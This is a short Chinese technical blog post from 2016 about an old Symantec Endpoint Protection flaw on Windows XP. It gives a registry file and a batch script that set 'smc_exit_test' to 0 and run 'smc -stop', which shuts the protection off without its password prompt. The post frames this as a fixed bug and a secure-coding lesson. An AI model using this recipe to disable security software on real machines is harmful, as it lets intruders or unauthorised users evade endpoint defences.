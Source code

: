 ```yaml
---
title: 旧版SEP在Windows XP下的漏洞
alias: the-bug-of-sep
tags:
  - Windows
categories: 运维
date: 2016-07-31 14:35:44
---
```



低版本的 SEP(Symantec endpoint protection) 在 Windows XP 系统下存在一个漏洞（其他版本 windows 尚未验证），即修改注册表某一键的值后，即可在不输入密码的情况下关闭该软件的相关保护功能。

## 分析

首先创建一个 test.reg 文件，用于修改注册表，内容如下。<!--more-->

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\SMC]
"smc_exit_test"=dword:00000000
```

可以看到我们只需要将位于 `HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\SMC` 中的 `smc_exit_test` 项的值改为0，就可以禁用关闭保护时的检测。

然后创建一个 bat 文件，内容如下：

```
@echo off
regedit.exe/s C:\test.reg
cd  "C:\Program Files\Symantec\Symantec Endpoint Protection"
smc -stop
```

在这个脚本中，我们通过 regedit.exe/s 命令无提示地将刚才定义的 reg 文件内容导入注册表，随后切换到 SEP 的安装目录中，通过执行 SEP 自带的 `smc -stop` 来终止保护。

运行后可以发现并没有出现在直接运行 `smc -stop` 时会弹出的要求输入密码的对话框，SEP 却直接停止了保护。

## 后记

这是 SEP 几年前旧版本中的一个漏洞，在随后的新版本中早已得到修护。我们可以从这个漏洞中看到，在编程时需要考虑一些配置信息的隐藏和权限控制问题（尤其注意早期版本 windows 的注册表），防止通过简单地修改注册表或配置文件即可停止程序主体服务的情况发生。